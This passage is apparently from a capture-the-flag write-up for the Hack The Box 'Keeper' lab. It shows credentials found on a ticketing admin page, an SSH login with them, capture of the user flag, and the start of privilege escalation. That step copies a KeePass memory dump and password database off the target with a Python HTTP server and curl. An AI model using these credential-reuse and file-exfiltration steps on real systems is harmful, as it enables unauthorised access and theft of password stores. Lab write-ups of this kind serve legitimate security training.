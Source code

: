 I do a bit of enumeration in the site and I discover this directory `http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27`, here I discover the user credentials:
```
lnorgaard:Welcome2023!
```

I login to ssh like lnorgaard and I find the userflag:
```
┌──(kali㉿kali)-[~]
└─$ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: 
Permission denied, please try again.
lnorgaard@10.10.11.227's password: 
Permission denied, please try again.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Tue Aug 22 21:32:33 2023 from 10.10.14.112
lnorgaard@keeper:~$ cat user.txt
048449a30142bac10a23b899f4c5dac9
lnorgaard@keeper:~$ 
```

## Privilege Escalation

I see all file in the user directory and I unzip a file:
```sh
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx          
lnorgaard@keeper:~$ ls
KeePassDumpFull.dmp  passcodes.kdbx  RT30000.zip  user.txt
lnorgaard@keeper:~$ 
```

I download this files in my Local Machine:

- I open a WebServer  on the Target Machine:
```sh
lnorgaard@keeper:~$ python3 -m http.server 4444 
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

- I download the file to the Local Machine:
```sh
┌──(kali㉿kali)-[~]
└─$ curl http://keeper.htb:4444/KeePassDumpFull.dmp -O KeePassDumpFull.dmp    
...

┌──(kali㉿kali)-[~]
└─$ curl http://keeper.htb:4444/passcodes.kdbx -O passcodes.kdbx 
...
```
